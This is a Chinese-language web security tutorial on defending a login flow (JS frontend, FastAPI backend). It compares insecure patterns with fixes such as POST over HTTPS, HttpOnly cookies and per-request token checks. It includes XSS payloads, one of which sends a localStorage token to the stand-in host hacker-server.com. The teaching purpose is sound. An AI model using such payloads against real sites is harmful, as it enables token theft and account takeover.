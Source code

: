 ## 你的網站，其實正對駭客裸奔？從三大功能看懂攻防實戰

### ✍️ 前言

你寫了一個登入頁，一個商品後台，一個查圖片的功能，感覺都沒什麼問題。
但你打開 F12，駭客也打開了；你按下登入，他也跟著打了 API。
你甚至還沒發現你用的圖床爆流量、API 被打爆、帳號被盜光。

這篇文章不講抽象名詞，我們用一場場攻防演練，從你會做的 3 個操作出發：
**登入、上傳商品、查圖片。**
看看駭客如何見招拆招，而你又該如何防守。全篇包含攻防故事、F12 圖解、精簡 JS + Python (FastAPI) 程式碼、與每層防守實作建議。
看完這篇，即使你不是資安專家，也能寫出更難被攻破的網站！

-----

### 1️⃣ 登入攻防戰：Token 的生死鬥

**本章你將學會：**

  * 為何 GET 傳輸帳密是災難，以及如何安全傳輸。
  * Token 存哪裡最危險？XSS 如何竊取 Token？
  * HttpOnly Cookie 如何成為 Token 的避風港。
  * 為何登出後 Token 依然可能有效，以及如何真正讓它失效。
  * 比較 LocalStorage、SessionStorage、Cookie 的安全性。

-----

#### 回合一：帳密裸奔的風險

**漏洞：用 GET 請求傳送帳密**

你可能為了方便，在前端這樣寫：

```js
// ❌ 用 GET 傳帳密
fetch("https://example.com/login?username=alice&password=123456")
  .then((res) => res.json())
  .then(console.log);
``` 

後端 FastAPI 可能這樣接收：


```python
@app.get("/login")
def login(username: str, password: str):
    if username == "alice" and password == "123456":
        return {"token": "my-secret-token"}
    return {"error": "Invalid credentials"}
```
你拿到 token 後打算這樣用：

```js
localStorage.setItem("token", "my-secret-token"); // ❌
```

看似簡單，卻留下超多破口。
**駭客攻擊：F12 一覽無遺**

1.  **瀏覽器歷史紀錄、伺服器日誌**：帳密直接暴露。
2.  **F12 Network Panel**：駭客打開 F12 -\> Network，就能在請求的 URL 中看到明文帳密。

**你的防守：改用 POST + HTTPS**

  * **帳密放 Body**：POST 請求將數據放在請求主體中。
  * **HTTPS 加密**：確保傳輸過程被加密，即使被攔截也無法輕易讀取。
 
```javascript
// 前端 login.js (改進)
fetch("https://example.com/login", { // 假設已是 HTTPS
    method: "POST", // ✅ 改用 POST
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ username: "alice", password: "123456" }),
}) 
```

```python 
class LoginRequest(BaseModel):
    username: str
    password: str

@app.post("/login") # ✅ 改用 POST
async def login_post(user: LoginRequest):
    # 實際應用中:
    # 1. 從資料庫查詢 user.username
    # 2. 驗證 user.password (雜湊比對)
    if user.username == "alice" and user.password == "123456":
        # 實際應用中: 產生 JWT Token
        return {"token": "my-secret-token-from-post"}
    raise HTTPException(status_code=status.HTTP_401_UNAUTHORIZED, detail="帳號或密碼錯誤")
```

*提醒：生產環境務必全程 HTTPS。*

-----

#### 回合二：無處安放的 Token

你拿到了 Token，開心地存在 `localStorage`：

```javascript
// (續上)
localStorage.setItem("token", "my-secret-token-from-post"); // ❌ 風險儲存
```

**駭客攻擊：XSS 輕鬆竊取 localStorage 中的 Token**

如果你的網站有任何一處存在 XSS (跨站腳本攻擊) 漏洞，例如某個留言板未過濾用戶輸入：

```html
<div>使用者留言： <img src="x" onerror="alert('XSS! Token is: ' + localStorage.getItem('token'))"></div>
```

或者更隱蔽地將 Token 送到駭客伺服器：

```html
<script>
  var stolenToken = localStorage.getItem('token');
  if (stolenToken) { new Image().src = 'https://hacker-server.com/steal?token=' + stolenToken; }
</script>
```

駭客在 F12 Console 也能直接執行 `localStorage.getItem('token')` 拿走它。

**你的防守：改用 HttpOnly Cookie**

`HttpOnly` Cookie 無法被 JavaScript 讀取，能有效抵禦 XSS 竊取 Token。

後端（FastAPI）：

```python
@app.post("/login")
def login(data: LoginRequest, response: Response):
    token = create_jwt_token(data.username)
    response.set_cookie(
        key="access_token",
        value=token,
        httponly=True, # ✅ JavaScript 無法讀取
        samesite="Strict", # ✅ 防禦 CSRF
        secure=True,  # ✅ 僅在 HTTPS 下傳輸 (開發時若無 HTTPS 可先 False)
        max_age=3600,  # cookie 有效期
    )
    return {"msg": "登入成功"}
```

前端後續請求只要：

```js
fetch("/api/get_info", {
  method: "GET",
  credentials: "include",
});
```

前端現在不需要手動儲存 Token，瀏覽器會在後續請求中自動帶上 Cookie。

-----

#### 回合三：每個 API 都要驗證身份
 
雖然確認了前端請求會帶token，但也要確認後端都有驗證token

後端需針對每筆 request 驗證身份：

```python
from fastapi import Request, HTTPException, Depends

def get_current_user(request: Request):
    token = request.cookies.get("access_token")
    if not token:
        raise HTTPException(status_code=401)
    return decode_jwt(token)
```

應用：

```python
@app.get("/me")
def get_profile(user=Depends(get_current_user)):
    return {"username": user.username}
``` 

-----

#### 小結與 Token 儲存方式比較

經過幾輪攻防，我們知道 HttpOnly Cookie 是 Web 環境下儲存 Token 的較優選擇。現在，讓我們正式比較一下各種儲存方式：

| 特性         | localStorage                                  | sessionStorage                               | Cookie (HttpOnly)                                              |
| :----------- | :-------------------------------------------- | :------------------------------------------- | :------------------------------------------------------------- |
| **生命週期** | 永久，除非手動或程式清除                      | 分頁/瀏覽器關閉後清除                        | 可設定過期時間 (`Max-Age`)                                      |
| **JS 存取** | 可 (`localStorage.getItem/setItem`)           | 可 (`sessionStorage.getItem/setItem`)        | **不可** (若設定 HttpOnly)                                   |
| **XSS 風險** | **高** (Token 易被竊取)                       | **高** (Token 易被竊取)                       | **低** (Token 不易被 JS 竊取，但 XSS 仍可以發起請求)          |
| **CSRF 風險**| 低 (需 JS 主動發請求，預設不帶)               | 低 (同上)                                    | **中** (需配合 `SameSite` 屬性防禦)                         |
| **與伺服器通訊** | 不自動傳送，需手動加入請求 (如 Header)      | 不自動傳送，需手動加入請求                   | 自動隨同網域請求傳送 (可控制 Path, Domain)                     |
| **容量** | 約 5-10MB                                     | 約 5-10MB                                    | 約 4KB (較小)                                                  |
| **推薦場景** | 非敏感的用戶偏好設定                          | 表單暫存資料，分頁級別狀態                   | **Session 管理、Token 儲存** (配合 `Secure`, `SameSite`)      |

-----
